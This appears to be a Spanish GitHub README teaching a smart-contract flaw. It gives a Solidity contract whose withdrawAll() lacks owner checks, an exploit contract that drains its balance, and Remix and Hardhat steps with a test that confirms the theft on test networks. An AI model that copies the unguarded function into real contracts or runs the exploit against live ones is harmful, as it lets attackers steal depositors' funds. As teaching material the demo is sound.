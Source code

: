 # sc-vu
1. Contrato Vulnerable
El siguiente contrato tiene una función withdrawAll() marcada como public, lo cual permite que cualquier persona (no solo el dueño) pueda retirar todos los fondos del contrato.

solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VulnerableContract {
    uint256 public balance;
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    // Modificador que permite solo al dueño del contrato realizar ciertas acciones
    modifier onlyOwner() {
        require(msg.sender == owner, "No eres el propietario del contrato");
        _;
    }

    // Función pública para depositar Ether en el contrato
    function deposit() public payable {
        balance += msg.value;
    }

    // Función vulnerable: cualquier persona puede retirar todo el balance
    function withdrawAll() public {
        require(balance > 0, "Saldo insuficiente");
        payable(msg.sender).transfer(balance);
        balance = 0;
    }

    // Función de retiro de emergencia solo para el dueño del contrato
    function emergencyWithdraw() external onlyOwner {
        payable(owner).transfer(balance);
        balance = 0;
    }
}
Explicación de la Vulnerabilidad
La función withdrawAll() está marcada como public, lo que significa que cualquiera puede llamarla y vaciar el balance del contrato.
Esta función debería haber sido restringida con un modificador como onlyOwner para que solo el dueño pudiera realizar retiros.
2. Contrato de Explotación
Este contrato interactúa con el contrato vulnerable para explotar la función withdrawAll() y robar todos los fondos.

solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./VulnerableContract.sol";

contract ExploitContract {
    VulnerableContract public vulnerable;

    constructor(address _vulnerableAddress) {
        vulnerable = VulnerableContract(_vulnerableAddress);
    }

    // Función que explota la vulnerabilidad llamando a withdrawAll
    function exploit() public {
        vulnerable.withdrawAll();
    }

    // Función para recibir los fondos explotados
    receive() external payable {}
}
3. ¿Cómo funciona la explotación?
El contrato ExploitContract interactúa con el contrato vulnerable llamando a la función withdrawAll().
Debido a que withdrawAll() es pública, el contrato atacante puede retirar todos los fondos sin restricciones.
4. Instrucciones para Probar y Verificar la Vulnerabilidad
Opción 1: Usar Remix
Abre Remix IDE.
Crea dos archivos: VulnerableContract.sol y ExploitContract.sol con los códigos anteriores.
Despliega el contrato vulnerable:
Despliega VulnerableContract en la red de pruebas de tu preferencia (Ropsten, Kovan, o una red local como Ganache).
Usa la función deposit() para enviar Ether al contrato.
Despliega el contrato de explotación:
Despliega ExploitContract, pasando como parámetro la dirección del contrato vulnerable.
Realiza la explotación:
Llama a la función exploit() en ExploitContract.
Todos los fondos serán transferidos del contrato vulnerable al contrato atacante.
Opción 2: Usar Hardhat
Si prefieres un entorno de desarrollo más avanzado como Hardhat, puedes seguir estos pasos:

Instalar Hardhat: Asegúrate de tener Hardhat instalado en tu entorno:

bash
npm install --save-dev hardhat
Crear el proyecto y añadir contratos: Crea un nuevo proyecto de Hardhat y copia los contratos VulnerableContract.sol y ExploitContract.sol dentro de la carpeta contracts/.

Escribir un test en JavaScript para probar la vulnerabilidad: Crea un archivo en la carpeta test/ y escribe un script como el siguiente:

const { expect } = require("chai");

describe("Vulnerability Test", function () {
  it("Should exploit the vulnerability", async function () {
    const [owner, attacker] = await ethers.getSigners();

    // Desplegar el contrato vulnerable
    const VulnerableContract = await ethers.getContractFactory("VulnerableContract");
    const vulnerable = await VulnerableContract.deploy();
    await vulnerable.deployed();

    // Depositar algo de Ether en el contrato vulnerable
    await vulnerable.connect(owner).deposit({ value: ethers.utils.parseEther("1") });

    // Desplegar el contrato explotador
    const ExploitContract = await ethers.getContractFactory("ExploitContract");
    const exploit = await ExploitContract.connect(attacker).deploy(vulnerable.address);
    await exploit.deployed();

    // Realizar la explotación
    await exploit.connect(attacker).exploit();

    // Verificar que el balance del contrato vulnerable es 0
    const balance = await ethers.provider.getBalance(vulnerable.address);
    expect(balance).to.equal(0);
  });
});
Ejecutar las pruebas: Ejecuta el siguiente comando para correr las pruebas:

bash
npx hardhat test
